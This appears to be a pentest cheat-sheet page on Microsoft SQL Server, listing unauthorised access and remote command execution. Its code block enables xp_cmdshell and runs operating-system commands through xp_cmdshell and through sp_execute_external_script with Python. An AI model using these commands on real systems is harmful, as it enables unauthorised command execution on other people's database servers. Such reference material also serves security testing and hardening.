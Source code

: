 # MSSQL

<details>

<summary>Introduction</summary>

MSSQL（Microsoft SQL Server）是由微软开发的关系型数据库管理系统，专为处理大规模数据和支持企业级应用而设计。它提供了强大的数据管理、分析和安全功能，包括事务处理、数据复制、灾难恢复和数据加密等。MSSQL 被广泛用于企业级应用程序、网站、数据仓库和商业智能等领域。

</details>

<table><thead><tr><th width="178">Name</th><th>MSSQL (Microsoft SQL Server)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>1433</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>Remote Command Execution</li></ul></td></tr></tbody></table>

## Unauthorized Access

If the MSSQL service allows unauthorized access, you can use the [Navicate Premium](https://www.navicat.com/en/products/navicat-premium) to connect.

## Remote Command Execution

```bash
# Check the status of xp_cmdshell (0 closed / 1 open).
EXEC sp_configure 'xp_cmdshell';

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# Disable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

# Use xp_cmdshell to execute the whoami command
EXEC xp_cmdshell 'whoami';
EXEC dbName..xp_cmdshell 'whoami';

# Use sp_execute_external_script to call an external Python script to execute the whoami command
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```
